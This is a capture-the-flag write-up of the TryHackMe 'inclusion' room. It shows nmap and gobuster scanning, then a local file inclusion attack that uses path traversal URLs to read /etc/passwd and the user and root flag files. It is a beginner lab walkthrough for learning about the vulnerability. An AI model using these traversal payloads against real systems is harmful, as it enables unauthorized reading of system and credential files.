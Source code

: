 ```yaml
---
title: "THM:inclusion"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/inclusion"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,lfi,local-file-inclusion
---
```

# THM:inclusion

URL: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion) [Easy]

Tags: 
<div style="margin-left: 5px;">
{% assign tags = page.tags | split: " " %}
{% for tag in tags %}
<a href="../search/?q={{tag}}" title="Click to search by this tag"><span class="badge bg-secondary">{{tag}}</span></a>
{% endfor %}
</div>
<hr>

## Reconnaissance

Description of the room:

> This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.
>  
> If you have any kind of feedback please reach out to me on twitter at [0xmzfr](https://twitter.com/0xmzfr)

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Running: `gobuster`

Ran the following:
> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/article              (Status: 500) [Size: 290]
```

*See also: [gobuster.log](gobuster.log)*

## Gaining Access

What we discover is there is only one folder on this server (that is `/article`) and as a `name` argument, it seems to take a file name.

So, we go back, back, back up a few directories to see if we can get the web server to print out the contents of other interesting files on the server.

### STEP 1: Find usernames

> http://10.10.110.200/article?name=../../../../etc/passwd

### STEP 2: Get unprivileged user flag

> http://10.10.110.200/article?name=../../../../home/falconfeast/user.txt

### STEP 3: Get root flag

> http://10.10.110.200/article?name=../../../../root/root.txt

By using this technique, we were able to get a value username (`falconfeast`) and read the `user.txt` file, and also step into the `/root` folder to read the `root.txt` file. The contents of those files were the two flags for this room.

## Maintaining Access

We never got direct access to this box, so no access to maintain.

## Clearing Tracks

We never had direct access. Nothing to do.

## Summary

Completed: [2022-01-19 21:50:56]